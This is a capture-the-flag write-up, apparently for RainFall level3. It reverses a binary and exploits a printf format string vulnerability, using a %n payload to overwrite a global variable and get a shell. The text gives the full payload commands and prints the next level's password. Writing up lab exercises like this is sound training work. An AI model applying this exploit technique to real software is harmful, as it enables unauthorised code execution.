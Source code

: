 get the binary on host
* `scp -P 4242 level3@192.168.56.107:./level2 ./binary/level3`

decompile using ghidra

When we disasemble the main function, we can see the main call a v() function 

 0x08048520 <+6>:     call   0x80484a4 <v>

 in c does this:

```
unsigned int m;

void v(void)
{
  char buffer[520];
  
  fgets(buffer,520,stdin);
  printf("%s", buffer);
  if (m == 0x40)    --> 64 in decimal
  {
    fwrite("Wait what?!\n",1,stdout);
    system("/bin/sh");
  }
  return;
}

 void main(void)
{
  v();
  return;
}

```
The program is simple, it's calling function v() wich check if the value of m, a global unitialize variable, is equal to 64.
If it is, then it launch a shell so we can get our .pass.

fgets is protected against buffer overflow, but there is an exploit called string attack we can use on printf.
It uses the %n modifier wich writes the number of bytes into a pointer.
The goal is to use the modifier '%n' to change the m value at the right place on the stack.

first we need to get the address of m, quick look on ghidra, it is: 0804988c

Now we have to display the memory address in the stack until we reach that address:

level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08 %x %x %x %x %x'" > /tmp/file

level3@RainFall:~$ cat /tmp/file | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c 20782520

So we can count 3 addresses before m, and 4 including it. Now we can build our exploit:

python -c "print '\x8c\x98\x04\x08' + 'z'* 60 + '%4\$n'" > /tmp/file

we write 60 bytes, the '4\$' inf the '%n' modifier is here to tell the fonction to skip the 3 addresses so we are a the good position in the stack.\
60 bytes + \x8c\x98\x04\x08 wich is 4 bytes makes 64 written to the m variable address (\x8c\x98\x04\x08)
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '\x90' * 60 + '%4\$n'" > /tmp/exploit_3 ; cat /tmp/exploit_3 - | ./level3`
�������������������������������������������������������������
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
